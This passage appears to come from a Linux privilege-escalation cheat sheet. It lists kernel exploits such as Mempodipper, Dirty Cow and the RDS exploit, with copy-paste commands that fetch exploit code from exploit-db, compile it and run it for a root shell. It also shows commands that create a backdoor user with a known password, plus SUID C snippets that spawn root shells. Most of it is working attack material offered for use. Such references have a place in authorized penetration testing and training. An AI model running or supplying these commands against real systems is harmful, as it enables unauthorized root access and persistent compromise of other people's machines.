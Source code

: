     [https://www.exploit-db.com/exploits/14814/](http://web.archive.org/web/20171113221652/https://www.exploit-db.com/exploits/14814/)

         wget -O i-can-haz-modharden.c http://www.exploit-db.com/download/14814
         $ gcc i-can-haz-modharden.c -o i-can-haz-modharden
         $ ./i-can-haz-modharden
         [+] launching root shell!
         # id
         uid=0(root) gid=0(root)

*   CVE-2010-3904 - Linux RDS Exploit - Linux Kernel <= 2.6.36-rc8  
    [https://www.exploit-db.com/exploits/15285/](http://web.archive.org/web/20171113221652/https://www.exploit-db.com/exploits/15285/)

*   CVE-2012-0056 - Mempodipper - Linux Kernel 2.6.39 < 3.2.2 (Gentoo / Ubuntu x86/x64)  
    [https://git.zx2c4.com/CVE-2012-0056/about/](http://web.archive.org/web/20171113221652/https://git.zx2c4.com/CVE-2012-0056/about/)  
    Linux CVE 2012-0056

          wget -O exploit.c http://www.exploit-db.com/download/18411 
          gcc -o mempodipper exploit.c  
          ./mempodipper

*   CVE-2016-5195 - Dirty Cow - Linux Privilege Escalation - Linux Kernel <= 3.19.0-73.8  
    [https://dirtycow.ninja/](http://web.archive.org/web/20171113221652/https://dirtycow.ninja/)  
    First existed on 2.6.22 (released in 2007) and was fixed on Oct 18, 2016

*   Run a command as a user other than root

          sudo -u haxzor /usr/bin/vim /etc/apache2/sites-available/000-default.conf

*   Add a user or change a password

          /usr/sbin/useradd -p 'openssl passwd -1 thePassword' haxzor  
          echo thePassword | passwd haxzor --stdin

*   Local Privilege Escalation Exploit in Linux

    *   **SUID** (**S**et owner **U**ser **ID** up on execution)  
        Often SUID C binary files are required to spawn a shell as a superuser, you can update the UID / GID and shell as required.

        below are some quick copy and paste examples for various shells:

              SUID C Shell for /bin/bash  

              int main(void){  
              setresuid(0, 0, 0);  
              system("/bin/bash");  
              }  

              SUID C Shell for /bin/sh  

              int main(void){  
              setresuid(0, 0, 0);  
              system("/bin/sh");  
              }  
